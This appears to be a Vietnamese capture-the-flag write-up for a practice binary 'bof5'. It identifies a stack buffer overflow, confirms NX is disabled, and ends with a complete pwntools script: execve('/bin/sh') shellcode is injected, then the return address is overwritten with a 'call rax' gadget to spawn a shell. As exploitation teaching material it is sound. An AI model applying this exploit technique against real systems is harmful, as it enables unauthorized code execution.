







**1. Tìm lỗi**

Dùng lệnh file kiểm tra file



Là file elf64 bit -> Mở bằng IDA64 ta có hàm main như sau:



Ta có hàm run như sau:



Ta thấy biến v2 được khai báo với 524 byte nhưng cho phép nhập 0x220 = 544 byte -> Có lỗi bof

Thử chạy với payload1 là duc và payload2 là nhập tràn biến v2 ta được giá trị các thanh ghi trả về như sau



Ta thấy giá trị mình nhập vào biến a1 được lưu vào rax nên có thể chèn shellcode ở a1

Dùng lệnh checksec xem có thể chèn shellcode được không



Ta thấy NX ở trạng thái disabled nên có khai chèn được shellcode

**2. Ý tưởng**

Ở bước nhập a1 thì nhập shellcode với chuỗi "/bin/sh", đến bước nhập v2 thì nhập tràn 544 byte rồi pop rax bằng ROPgadget

**3. Viết script**



Địa chỉ lệnh call rax: 0x0000000000401014



Khoảng cách từ v2 đến ret là: 0x210 + 0x8 = 536

Ta có script như sau:

```
from pwn import *

r = process("./bof5")

shellcode = asm(
    '''
    mov rax, 0x3b
    mov rdi, 29400045130965551
    push rdi
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
    ''', arch='amd64')

call_rax = 0x0000000000401014
r.sendafter('> ', shellcode)
r.sendafter('> ', b'a'*536 + p64(call_rax))

r.interactive()
```